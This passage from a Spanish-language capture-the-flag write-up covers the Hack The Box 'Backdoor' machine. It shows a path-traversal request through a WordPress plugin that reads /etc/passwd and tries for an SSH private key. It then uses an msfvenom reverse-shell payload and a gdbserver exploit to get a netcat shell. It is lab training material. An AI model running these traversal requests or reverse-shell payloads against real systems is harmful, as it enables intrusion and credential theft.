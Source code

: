 ```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd
```

```console
p3ntest1ng:~$ cat passwd | grep -v "false\|nologin" | tr ":" " " | column -t
/etc/passwd/etc/passwd/etc/passwdroot  x  0     0      root  /root       /bin/bash
sync                                   x  4     65534  sync  /bin        /bin/sync
user                                   x  1000  1000   user  /home/user  /bin/bash
```

Conociendo el usuario, podemos intentar descargarnos el archivo **`id_rsa`** para conectarnos por SSH.

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../home/user/.ssh/id_rsa
```

Sin embargo esto no funciona, tal vez no tenemos permisos, probemos otra cosa. 
Si recordamos los puertos encontrados, vimos que el **1337** está cerrado. Este puerto es utilizado por [GDB Server](https://www.man7.org/linux/man-pages/man1/gdbserver.1.html).
Buscando un poco en Google, he encontrado este exploit para la versión **`9.2`**: [https://www.exploit-db.com/exploits/50539](https://www.exploit-db.com/exploits/50539)

Vamos a descargarlo en nuestra máquina y comprobemos si es vulnerable. Vamos a utilizar **`msfvenom`** para generar el payload.

```console
p3ntest1ng:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.114 LPORT=9999 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
```

Ahora nos ponemos en escucha por el puerto **`9999`** con **`netcat`**. Y ejecutamos el exploit:

```console
p3ntest1ng:~$ python3 gdbserver92_exploit.py 10.10.11.125:1337 rev.bin
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
```

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.114] from (UNKNOWN) [10.10.11.125] 35514
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Vamos a realizar un tratamiento a la tty para poder movernos con mayor comodidad.

```console
user@Backdoor:/home/user$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
/usr/bin/bash: /usr/bin/bash: cannot execute binary file
Script done, file is /dev/null
user@Backdoor:/home/user$ ^Z
zsh: suspended  nc -nlvp 9999
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
user@Backdoor:/home/user$ export TERM=xterm
user@Backdoor:/home/user$ export SHELL=bash
user@Backdoor:/home/user$ ls
```
